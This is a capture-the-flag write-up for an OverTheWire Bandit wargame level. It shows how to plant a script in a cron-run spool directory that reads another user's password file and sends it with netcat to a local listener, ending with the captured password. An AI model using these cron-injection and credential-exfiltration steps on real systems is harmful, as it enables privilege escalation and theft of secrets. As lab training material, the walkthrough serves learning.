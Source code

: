 This challenge is a little bit tricky, we can utilise the cron job that executes every script in the /var/spool/bandit24/foo, so we will make a simple script that reads the password from /etc/bandit_pass/bandit24 and send the data to an existing listening socket with netcat
```bash
bandit23@bandit:/tmp/midgeek$ mkdir /tmp/bandd14
bandit23@bandit:/tmp/bandd14$ vim sj.sh
```
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 | nc 127.0.0.1 32011
```
Then we have to start the netcat server and copy the script to the desired directory
```bash
bandit23@bandit:/tmp/bandd14$ nc -lvp 32011 > ott &
[1] 1953737
bandit23@bandit:/tmp/bandd14$ Listening on 0.0.0.0 32011
bandit23@bandit:/tmp/bandd14$ cp sj.sh /var/spool/bandit24/foo/script.sh && chmod +x /var/spool/bandit24/foo/script.sh
bandit23@bandit:/tmp/bandd14$ Connection received on localhost 46472 //after a while, now we have the output file
bandit23@bandit:/tmp/bandd14$ cat ott
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
